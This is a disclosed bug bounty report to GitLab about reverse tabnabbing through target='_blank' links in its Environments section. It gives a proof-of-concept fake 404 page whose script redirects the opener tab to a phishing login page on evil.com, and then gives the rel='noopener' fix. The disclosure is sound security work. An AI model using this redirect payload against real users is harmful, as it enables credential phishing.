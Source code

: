 # Gitlab.com is vulnerable to reverse tabnabbing.

## Report Details
- **Report ID**: 211065
- **URL**: https://hackerone.com/reports/211065
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-03-06T10:41:48.808Z
- **Disclosed**: 2017-03-21T15:58:42.727Z

## Reporter
- **Username**: edoverflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Dear GitLab bug bounty team,

# Summary
---

Gitlab.com is vulnerable to reverse tabnabbing, since you use `target="_blank"` on links in the *Environments* section.

{F166659}

# Why does this vulnerability exist?
---

The following `<a href="https://example.com/" target="_blank">link</a>` is vulnerable to reverse tabnabbing, because it uses `target="_blank"`:

~~~
<a target="_blank" class="btn external-url" href="https://evil.com"><i class="fa fa-external-link"></i>
</a>
~~~

This means the page that opens in a new tab can access the initial tab and change its location using the `window.opener` property.

# What are the exploits?
---

I used some simple tricks to further increase the chances of this attack working. I added a link to a website which contains the following code:

~~~
<!DOCTYPE html>
<html>
<head>
    <title>404 Not Found</title>
</head>
<body>
    <h1>Not Found</h1>
    <p>The requested URL was not found on this server.</p>
    <hr>
    <address>Apache/2.2.15 (Red Hat) Server at gitlab.com Port 443</address>
    <script>
        window.opener.location.assign('https://evil.com/ph-login.html');
    </script>
</body>
</html>
~~~

{F166662}

The new tab displays a 404 page which increases the likelihood that the victim will return to the previous tab. While the victim visited the attacker's page, the initial tab was redirected to `https://evil.com/ph-login.html`. This page looks exactly like the GitLab login form and asks the victim to re-enter their login credentials.

{F166660}

# How can this be fixed?
---

In order to mitigate this issue, developers are encouraged to use `rel="nofollow noopener noreferrer"` as follows:

~~~
<a target="_blank" class="btn external-url" href="https://evil.com" rel="nofollow noopener noreferrer"><i class="fa fa-external-link"></i>
</a>
~~~

Now when you click on this link, the attacker cannot access the initial tab.

For more on reverse tabnabbing, please refer to the following page: https://www.jitbit.com/alexblog/256-targetblank---the-most-underestimated-vulnerability-ever/

If you require further information feel free to contact me.

Yours sincerely,
Ed

## Attachments
- environments-gitlab.PNG
- login-gitlab.PNG
- 404-gitlab.PNG
